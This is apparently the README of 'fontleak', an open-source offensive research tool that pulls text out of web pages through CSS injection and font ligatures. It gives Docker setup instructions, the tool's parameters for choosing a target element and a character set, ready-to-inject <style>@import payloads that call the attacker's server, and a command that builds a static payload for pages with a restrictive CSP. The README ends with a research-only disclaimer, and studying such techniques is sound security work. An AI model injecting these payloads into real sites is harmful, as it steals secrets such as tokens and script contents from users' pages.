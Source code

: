 [![License](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/adrgs/fontleak)](https://github.com/adrgs/fontleak/releases)
[![GitHub stars](https://img.shields.io/github/stars/adrgs/fontleak)](https://github.com/adrgs/fontleak/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/adrgs/fontleak)](https://github.com/adrgs/fontleak/network/members)
[![GitHub contributors](https://img.shields.io/github/contributors/adrgs/fontleak)](https://github.com/adrgs/fontleak/graphs/contributors)
[![Follow @adragos_](https://img.shields.io/twitter/follow/adragos_?style=social)](https://twitter.com/adragos_)

<p align="center">
  <img width="400" alt="fontleak logo" src="https://github.com/user-attachments/assets/69d9b715-e9fc-4bc6-8e0c-b4126f44434e" />
</p>

# fontleak

Fast exfiltration of text using CSS and Ligatures. For a detailed technical explanation, check out my [blog post](https://adragos.ro/fontleak).

## Getting Started

### Using Docker

You can quickly get started with fontleak using Docker:

```bash
# Run the container
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 adrgs/fontleak
```

Set the `BASE_URL` environment variable to the public URL where the site will be accessible.

> This will only setup a basic HTTP/1.1 server. Use a reverse proxy like Caddy for TLS and HTTP/2 or HTTP/3.


## Using fontleak

The fontleak URL accepts several parameters to customize its behavior:

### Parameters
- `selector`: CSS selector that matches exactly one element in the target page. default: env `SELECTOR` / `script:first-of-type`
- `attr`: Attribute to exfiltrate. default: env `ATTR` / `textContent`
- `parent`: Parent element of the target element (default: `body`, options: `body` or `head`). default: env `PARENT` / `body`
- `alphabet`: Characters to include in the font (default: env `ALPHABET` / `contents of string.printable`).

### Example Usage

Basic usage:
```html
<style>@import url("http://localhost:4242/");</style>
```

Custom selector, parent, and alphabet:
```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> **⚠️ Warning:** The CSS selector must match exactly one element in the target page. If the selector matches multiple elements or no elements, fontleak will fail to exfiltrate the text.

## Static payload

By default, fontleak will use [sequential import chaining](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) to efficiently exfiltrate text. But it's not always the case that the target page CSP allows this. 

In this case, you can use the `/static` endpoint to generate a static CSS payload that only requires lax CSP for `img-src` and `font-src`.

```bash
wget http://localhost:4242/static -O payload.css
```

Which takes these additional parameters:
- `length`: Length of the payload. default: env `LENGTH` / `100`
- `browser`: Browser compatibility (options: `all`, `chrome`, `firefox`, `safari`). default: env `BROWSER` / `all`

> **⚠️ Warning:** Size of payload.css is directly proportional to the `length` and `alphabet` size. Choosing a target browser can enable certain optimizations.

Instead of unique ids, fontleak will group requests by (IP, User-Agent, Referer) pairs.

## Disclaimer

fontleak is a research project intended for educational and security testing purposes only. The author is not responsible for any misuse of this software. Users are solely responsible for ensuring they have proper authorization before using this tool in any environment. Use at your own risk.